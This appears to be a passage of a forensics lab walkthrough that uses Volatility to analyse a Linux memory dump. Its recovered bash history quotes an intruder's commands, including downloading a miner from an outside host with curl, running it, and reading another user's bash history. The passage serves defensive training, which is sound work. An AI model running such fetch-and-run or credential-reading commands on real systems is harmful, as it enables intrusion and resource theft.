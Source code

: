 Note: If you are curious about how to create a Linux profile, you'll find this article by Nicolas Béguier very helpful.

Now, we can begin our analysis.

Memory Analysis

The file linux.mem contains the memory dump of the Linux server we're going to analyse. This file is located in our home directory. For Volatility to begin the analysis, we have to specify the file with the -f flag and the profile with the --profile flag. We can use the -h flag to look at all the different plugins we can use to help with our analysis.

```
ubuntu@volatility:~/Desktop/Evidence$ vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" -h
Volatility Foundation Volatility Framework 2.6.1 Usage: Volatility - A memory forensics analysis platform.

Options:
  -h, --help            List all available options and their default values. 
  --conf-file=/home/thm/.volatilityrc 
User based configuration file
  --d, --debug          Debug volatility

--cropped for brevity--

Supported Plugin Commands:
linux_banner           Prints the Linux banner information
linux_bash             Recover bash history from bash process memory
linux_bash_env         Recover a process' dynamic environment variables
linux_enumerate_files  Lists files referenced by the filesystem cache
linux_find_file        Lists and recovers files from memory
linux_lsmod            Gather loaded kernel modules
linux_malfind          Looks for suspicious process mappings 
linux_procdump         Dumps a process's executable image to disk
linux_pslist           Gather active tasks by walking the task_struct->task list

--cropped for brevity--
```

We can see the different plugin options that we can use. Let's start with the history file.

Volatility Plugins

History File

The history file is a good place to start because it allows us to see whether there are any commands executed by our malicious actor while they were on the system. To examine the history file for any such commands, we can use the linux_bash plugin. The command will take a little less than a minute to finish executing.

```
ubuntu@volatility:~/Desktop/Evidence$ vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    8092 bash                 2023-10-02 18:13:46 UTC+0000   sudo su

--cropped for brevity--
   10205 bash                 2023-10-02 18:19:58 UTC+0000   mysql -u root -p'redacted'
   10205 bash                 2023-10-02 18:19:58 UTC+0000   id
   10205 bash                 2023-10-02 18:19:58 UTC+0000   curl http://10.0.2.64/toy_miner -o miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   ./miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   cat /home/elfie/.bash_history

--cropped for brevity--
```